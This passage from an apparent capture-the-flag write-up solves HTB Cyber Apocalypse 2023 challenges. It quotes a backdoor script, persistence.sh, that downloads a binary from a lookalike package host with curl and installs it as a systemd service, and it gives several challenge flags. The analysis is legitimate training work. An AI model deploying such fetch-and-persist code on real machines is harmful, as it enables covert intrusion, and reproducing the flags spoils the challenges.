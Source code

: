 <br>
Here, you can see the flag is clearly visible in the variable called **$f** and all we have to do is to join the flag pieces together and we will get our flag.

> HTB{p0w3rsh3ll_Cr4dl3s_c4n_g3t_th3_j0b_d0n3}

<br>
## Extraterrestrial Persistence

<br><img src="/assets/images/2023/htb_cyber_apocalypse_ctf/extraterrestrial_persistence_1.png" alt="extraterrestrial_persistence">

<br>
Here, we are given a bash file called **persistence.sh** which looked like a backdoor to me. The source code that contains this bash file is mentioned below for your reference:
```
n=`whoami`
h=`hostname`
path='/usr/local/bin/service'
if [[ "$n" != "pandora" && "$h" != "linux_HQ" ]]; then exit; fi

curl https://files.pypi-install.com/packeges/service -o $path

chmod +x $path

echo -e "W1VuaXRdCkRlc2NyaXB0aW9uPUhUQnt0aDNzM180bDEzblNfNHIzX3MwMDAwMF9iNHMxY30KQWZ0ZXI9bmV0d29yay50YXJnZXQgbmV0d29yay1vbmxpbmUudGFyZ2V0CgpbU2VydmljZV0KVHlwZT1vbmVzaG90ClJlbWFpbkFmdGVyRXhpdD15ZXMKCkV4ZWNTdGFydD0vdXNyL2xvY2FsL2Jpbi9zZXJ2aWNlCkV4ZWNTdG9wPS91c3IvbG9jYWwvYmluL3NlcnZpY2UKCltJbnN0YWxsXQpXYW50ZWRCeT1tdWx0aS11c2VyLnRhcmdldA=="|base64 --decode > /usr/lib/systemd/system/service.service

systemctl enable service.service
```

<br>
In the above source code, you can see that there is a string encoded in the **base64** which is being written down to the **/usr/lib/systemd/system/service.service** file. So, I think that this encoded string contains our flag.

<br><img src="/assets/images/2023/htb_cyber_apocalypse_ctf/extraterrestrial_persistence_2.png" alt="extraterrestrial_persistence">

<br>
After decoding the base64 encoded string, we got our flag in the **Description** variable.

> HTB{th3s3_4l13nS_4r3_s00000_b4s1c}

<br>
<h1><b><u>Misc</u></b></h1>

<br>
## Persistence

<br><img src="/assets/images/2023/htb_cyber_apocalypse_ctf/persistence_1.png" alt="persistence">

<br>
In this challenge, we are given link to a webpage which returns a random string each time we visit the webpage. According to the challenge description, it returns the flag every 1000th request, so its time for automation.
